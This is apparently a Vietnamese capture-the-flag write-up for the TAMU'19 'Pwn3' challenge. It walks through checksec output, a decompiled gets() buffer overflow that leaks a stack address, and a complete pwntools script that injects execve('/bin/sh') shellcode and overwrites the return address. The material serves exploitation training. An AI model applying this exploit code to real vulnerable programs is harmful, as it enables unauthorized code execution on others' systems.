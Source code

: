 # TAMU'19 Pwn3

Dùng file và checksec kiểm tra:

```
$	file pwn3
pwn3: ELF 32-bit LSB pie executable, Intel 80386, version 1 (SYSV), dynamically linked, interpreter /lib/ld-linux.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=6ea573b4a0896b428db719747b139e6458d440a0, not stripped

$	checksec pwn3
Arch:     i386-32-little
RELRO:    Full RELRO
Stack:    No canary found
NX:       NX unknown - GNU_STACK missing
PIE:      PIE enabled
Stack:    Executable
RWX:      Has RWX segments
```

File 32 bits, arch i386 và PIE có kích hoạt  
Thấy stack có thể thực thi -> nghĩ ngay đến phương pháp ret2shellcode  
Sử dụng ghidra để reverse file, thấy hàm echo đã mác lỗi buffer overflow:  

```
/* WARNING: Function: __x86.get_pc_thunk.bx replaced with injection: get_pc_thunk_bx */

void echo(void)

{
  char local_12e [294];
  
  printf("Take this, you might need it on your journey %p!\n",local_12e);
  gets(local_12e);
  return;
}
```

Hàm echo in ra địa chỉ trong stack của mảng local_12e, sau đó nhận input:

```
$	./pwn3
Take this, you might need it on your journey 0xffc0e9ae!
```

Chúng ta sẽ đẩy shellcode thực thi execve("/bin/sh"), sau đó ghi đè địa chỉ save rip trong stack của hàm echo bằng địa chỉ đã bị leak để thay đổi luồng của chương trình  
Ý tưởng đã có, giờ viết code khai thác:  

```
#!/usr/bin/python3
from pwn import *
exe = ELF("./pwn3", checksec = False)
con = process("./pwn3")
shellcode = asm(
    '''
    mov eax, 0x0b
    push 6845231 ;u32("/sh\0")
    push 1852400175 ;u32("/bin")
    mov ebx, esp
    xor ecx, ecx
    xor edx, edx
    int 0x80
    ''', arch = 'i386')
con.recvuntil(b"journey ")
leak = con.recvline().decode("utf-8")
leak = int(leak.strip("!\n"), 16)
print(hex(leak))
payload = shellcode 
payload = payload.ljust(302)
payload += p32(leak)
con.sendline(payload)
con.interactive()
```

Cho chạy code và lấy được flag
